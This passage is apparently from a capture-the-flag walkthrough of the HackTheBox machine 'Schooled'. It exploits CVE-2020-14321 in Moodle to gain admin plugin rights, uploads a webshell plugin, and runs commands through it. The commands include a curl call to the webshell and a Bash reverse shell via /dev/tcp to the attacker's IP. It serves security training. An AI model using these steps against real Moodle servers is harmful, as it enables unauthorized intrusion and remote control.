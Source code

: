 ![image-20210401175046114](https://0xdfimages.gitlab.io/img/image-20210401175046114.png)

The [GitHub](https://github.com/HoangKien1020/CVE-2020-14321#payload-to-full-permissions) has a POC to use as the body here. It’s important to note that the payload there starts with `&return=manage`, which is the second parameter in the payload in Burp:

![image-20210401175153658](https://0xdfimages.gitlab.io/img/image-20210401175153658.png)

It won’t work if I don’t include the `sesskey`, so I’ll replace the rest of the payload with the one from GitHub, leaving the `sesskey` intact, and then Forward the request.

Back on the Plugins page there’s more options:

![image-20210401175339054](https://0xdfimages.gitlab.io/img/image-20210401175339054.png)

### RCE

A Moodle Plugin is a zip file with a certain structure of folders and PHP files. There are different types of plugins that can be read about [here](https://docs.moodle.org/dev/Plugin_types). This [FAQ page](https://moodle.com/faq/how-do-i-create-a-moodle-plugin/) has a link to the [How-to guide](https://docs.moodle.org/dev/Blocks). While I could write my own, the GitHub POC I’ve been following has a [link](https://github.com/HoangKien1020/Moodle_RCE/blob/master/rce.zip) to `rce.zip` that provides a webshell (I’ll look at it in Beyond Root).

I’ll upload that via the administrator panel:

![image-20210401175829804](https://0xdfimages.gitlab.io/img/image-20210401175829804.png)

The next page shows a bunch of OKs (and a couple warnings) and I can click continue at the bottom:

![image-20210401175921082](https://0xdfimages.gitlab.io/img/image-20210401175921082.png)

Now the webshell is available:

```

oxdf@parrot$ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
uid=80(www) gid=80(www) groups=80(www)

```

It seems like the box is periodically cleaning up plugins as well.

### Shell

#### Initial

I’ll use the webshell to get a reverse shell. Interesting, even though the box is BSD, the Bash reverse shell works perfectly:

```

oxdf@parrot$ curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php

```

